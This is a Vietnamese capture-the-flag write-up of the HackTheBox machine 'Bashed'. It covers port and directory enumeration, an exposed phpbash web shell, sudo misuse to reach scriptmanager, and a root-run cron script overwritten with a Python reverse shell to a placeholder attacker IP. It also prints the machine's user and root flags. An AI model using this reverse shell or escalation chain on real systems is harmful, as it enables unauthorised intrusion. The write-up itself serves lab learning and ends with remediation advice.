



# Bashed 


> [!NOTE]
> Tên: Bashed
> Mức độ: Dễ 
> Url: https://app.hackthebox.com/machines/Bashed
> Nền tảng: Linux
> Thông tin Bashed là một máy Linux dễ sử dụng, tập trung vào việc kiểm thử lỗi web và định vị các tập tin phát triển bị lộ. Sau khi phát hiện một phiên bản phpbash hoạt động, quyền truy cập được cấp như sau: www-data và leo thang đến scriptmanager thông qua quyền sudo. Do quyền truy cập crontab trực tiếp bị hạn chế, việc leo thang quyền root dựa vào việc xác định các tập lệnh có thể ghi được thực thi bởi một tác vụ theo lịch trình thuộc sở hữu của người dùng root.

# Recon

## Liệt kê cổng mở bằng nmap 

```bash
nmap -sSVC -Pn bashed.htb
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 07:14 -0400
Nmap scan report for bashed.htb (10.129.55.73)
Host is up (0.057s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

> Kết quả:
> Chỉ có cổng 80 mở cho dịch vụ web với máy chủ Apache httpd 2.4.18

## Liệt kê web 

> Truy cập trang chủ web phát hiện ra 1 dịch vụ php bash được cài 
> Theo đường dẫn mặc định /uploads/phpbash.php không truy cập được 



> Liệt kê tệp thư mục ẩn bằng feroxbuster 

```bash
feroxbuster -u http://bashed.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -d 2 -x php,html,txt,js,css -C 404,500 
```

```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://bashed.htb/
 🚩  In-Scope Url          │ bashed.htb
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, js, css]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      305c http://bashed.htb/js => http://bashed.htb/js/
301      GET        9l       28w      309c http://bashed.htb/images => http://bashed.htb/images/
200      GET      680l     1154w    10723c http://bashed.htb/css/common.css
200      GET      117l      685w     4689c http://bashed.htb/css/sm-clean.css
200      GET        8l       73w     2429c http://bashed.htb/js/html5.js
200      GET       13l      113w     4313c http://bashed.htb/js/jquery.touchSwipe.min.js
200      GET      154l      394w     7477c http://bashed.htb/single.html
200      GET     1412l     2291w    24164c http://bashed.htb/style.css
200      GET        4l       66w    29063c http://bashed.htb/css/font-awesome.min.css
200      GET      893l     3885w    26643c http://bashed.htb/js/imagesloaded.pkgd.js
200      GET       15l      672w    36079c http://bashed.htb/js/jquery.carouFredSel-6.0.0-packed.js
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
301      GET        9l       28w      306c http://bashed.htb/css => http://bashed.htb/css/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
200      GET       14l      175w    10916c http://bashed.htb/demo-images/profile_01.jpg
200      GET      154l      547w     8193c http://bashed.htb/about.html
200      GET      156l      456w     7805c http://bashed.htb/contact.html
200      GET      216l      489w     8151c http://bashed.htb/dev/phpbash.php
200      GET      195l      678w    10863c http://bashed.htb/scroll.html
200      GET        1l      255w     4559c http://bashed.htb/dev/phpbash.min.php
200      GET       10l       31w    27144c http://bashed.htb/demo-images/01.jpg
200      GET       10l       57w    10376c http://bashed.htb/demo-images/02_blogpost_galery.jpg
200      GET       16l       43w    10873c http://bashed.htb/demo-images/01_blogpost_galery.jpg
200      GET       17l      472w    15798c http://bashed.htb/demo-images/03.jpg
200      GET        6l       28w     6396c http://bashed.htb/demo-images/one_drop_post_image02.jpg
200      GET        8l       32w    21291c http://bashed.htb/demo-images/featured-image.jpg
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
200      GET      122l      258w    43723c http://bashed.htb/demo-images/bash2.png
200      GET        0l        0w        0c http://bashed.htb/php/sendMail.php
200      GET       38l       76w      909c http://bashed.htb/js/custom_google_map_style.js
200      GET        6l       20w     1537c http://bashed.htb/images/arrow.png
200      GET      481l     2207w   216703c http://bashed.htb/demo-images/bash1.png
200      GET        0l        0w        0c http://bashed.htb/config.php
200      GET      161l      397w     7743c http://bashed.htb/index.html
301      GET        9l       28w      308c http://bashed.htb/fonts => http://bashed.htb/fonts/
200      GET      260l     1635w   130134c http://bashed.htb/fonts/fontawesome-webfont.woff2
200      GET       96l      166w     1661c http://bashed.htb/css/clear.css
200      GET        7l       23w     1322c http://bashed.htb/images/favicon.png
200      GET       12l       63w     1392c http://bashed.htb/js/jquery.mousewheel.min.js
200      GET       58l      254w     1783c http://bashed.htb/js/jquery.easing.1.3.js
200      GET        8l       35w     2447c http://bashed.htb/images/logo.png
200      GET      262l      560w     8904c http://bashed.htb/js/main.js
200      GET        3l      206w    24476c http://bashed.htb/js/jquery.smartmenus.min.js
200      GET      118l      550w    60153c http://bashed.htb/js/jquery.nicescroll.min.js
200      GET      310l     2069w   163622c http://bashed.htb/fonts/fontawesome-webfont.woff
200      GET      390l     2094w   135959c http://bashed.htb/fonts/fontawesome-webfont.eot
200      GET     2588l     4636w   239531c http://bashed.htb/fonts/FontAwesome.otf
200      GET     1304l     5478w   196149c http://bashed.htb/fonts/fontawesome-webfont.ttf
200      GET       32l      116w     1222c http://bashed.htb/css/carouFredSel.css
200      GET     2412l    19172w  1921246c http://bashed.htb/demo-images/bg.jpg
200      GET      161l      397w     7743c http://bashed.htb/
200      GET       18l      480w    17757c http://bashed.htb/demo-images/02.jpg
200      GET        8l       46w    10949c http://bashed.htb/demo-images/03_blogpost_galery.jpg
200      GET        6l     1435w    97184c http://bashed.htb/js/jquery.js
200      GET      154l     1009w    73725c http://bashed.htb/images/ajax-document-loader.gif
200      GET      685l    57230w   391622c http://bashed.htb/fonts/fontawesome-webfont.svg
200      GET        1l        1w       14c http://bashed.htb/uploads/index.html
[####################] - 3m    319542/319542  0s      found:57      errors:44     
[####################] - 3m    159504/159504  934/s   http://bashed.htb/ 
[####################] - 9s    159504/159504  16816/s http://bashed.htb/js/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 10s   159504/159504  16413/s http://bashed.htb/images/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 3m    159504/159504  920/s   http://bashed.htb/uploads/ 
[####################] - 6s    159504/159504  27266/s http://bashed.htb/css/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    159504/159504  1276032/s http://bashed.htb/dev/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 6s    159504/159504  26871/s http://bashed.htb/demo-images/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    159504/159504  1217588/s http://bashed.htb/php/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 5s    159504/159504  35156/s http://bashed.htb/fonts/ => Directory listing (add --scan-dir-listings to scan) 
```

> Phát hiện 1 thư mục rất đáng chú ý /dev
> Khi truy cập /dev sẽ thấy phpbash.php 
> Ở đây bản có thể tải nên 1 reverse shell php hoặc leo thang trực tiếp trên web 



# Privilege Escalation

## Leo thang ngang sang người dùng scriptmanager 

> Liệt kê thư mục /home sẽ có 2 thư mục arrexel, scriptmanager 
> Cờ user flag trong thư mục người dùng arrexel

```bash
35f4cf0e12d523989bef9f4c1fb21051
```

> Liệt kê các lệnh người dùng www-data có thể chạy với đặc quyền cao 
> www-data có thể thwucj thi mọi lệnh với quyền scriptmanager mà không cần mật khẩu 

```bash
www-data@bashed:/var/www$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

> Leo thang ngang người dùng scriptmanager

```
www-data@bashed:/var/www$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www$ whoami
scriptmanager
scriptmanager@bashed:/var/www$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Leo thang lên root 

```bash
scriptmanager@bashed:/$ ls -al
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            212 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 Oct 14 04:09 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 183 root          root              0 Oct 14 04:09 proc
drwx------   3 root          root           4096 Oct 14 04:09 root
drwxr-xr-x  18 root          root            520 Oct 14 04:09 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Oct 14 04:42 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Oct 14 04:37 sys
drwxrwxrwt  10 root          root           4096 Oct 14 06:24 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls -al
total 12
drwxrwxr--  2 scriptmanager scriptmanager 4096 Oct 14 04:42 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  270 Oct 14 04:42 test.py
-rw-r--r--  1 root          root             0 Oct 14 06:25 test.txt
```

> Phát hiện thư mục /scripts chứa tệp test.py có quyền chỉnh sửa 
> Dùng pspy để theo dõi các tiến trình hoạt động phát hiện định kỳ 1 phút 
> Root sẽ thực thi lệnh python test.py



> Chỉ cần chỉnh sửa test.py bằng mã tạo 1 reverse shell với quyền root kết nối đến máy mục tấn công 

```python
importsocket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("IP_ATTACK",4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```

> Mở cổng lắng nghe kết nối 

``` bash
└─$ nc -lnvp 4445                   
listening on [any] 4445 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.55.73] 38152
# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

> Root Flag

```
7b28004a4c0d20b928838ba7f15b33df
```

# Kết luận 

> [!NOTE]
> Đây là 1 phòng ở mức độ dễ 
> Liệt kê thư mục web có chức năng thực thi mã từ đó xâm nhập máy 
> Leo thang đặc quyền qua 1 tác vũ được lập lịch với quyền root 
> 
> - Khắc phục lỗ hổng:
> + Xóa bỏ tính năng php bash trên web haowcj giới hạn 1 số lệnh 
> + Tối thiểu đặc quyền cho các thiết lập trên hệ thống 